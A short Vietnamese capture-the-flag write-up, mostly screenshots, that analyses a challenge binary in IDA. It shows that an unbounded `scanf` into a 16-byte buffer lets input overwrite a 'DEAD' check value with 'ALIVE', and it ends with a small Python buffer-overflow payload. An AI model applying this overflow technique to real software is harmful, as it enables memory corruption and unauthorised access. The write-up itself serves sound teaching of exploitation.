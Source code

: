<img width="714" height="136" alt="image" src="https://github.com/user-attachments/assets/b5577af1-34d3-4c7a-ac86-5a82a1686a2a" />  

Kiểm tra file bằng một số lệnh cơ bản:  

<img width="896" height="775" alt="image" src="https://github.com/user-attachments/assets/50c40134-1179-48ec-82ed-ffd826f57e75" />  

Dùng IDA để phân tích:  

<img width="508" height="201" alt="image" src="https://github.com/user-attachments/assets/edc2d967-8999-4d7b-a609-ba57de1d8509" />  

Nhập tên và lưu vào `v4`  

<img width="728" height="570" alt="image" src="https://github.com/user-attachments/assets/a0a4d12f-ea2d-4dd0-bc81-884d8b2bb892" />  

`v4` được gán sẵn là `DEAD`  
`v4` phải là `ALIVE` mới được đi tiếp.  
`scanf("%s", v4)` nhận giá trị của `v4` nhưng không giới hạn đầu vào.  
`v4` có kích thước được khai báo là 16 bytes. Chỉ cần đầu vào > 16 bytes là gây tràn bộ nhớ.  
```python
import sys

payload = b"A" * 16 + b"ALIVE" + b"\n"

sys.stdout.buffer.write(payload)

```

Peace!







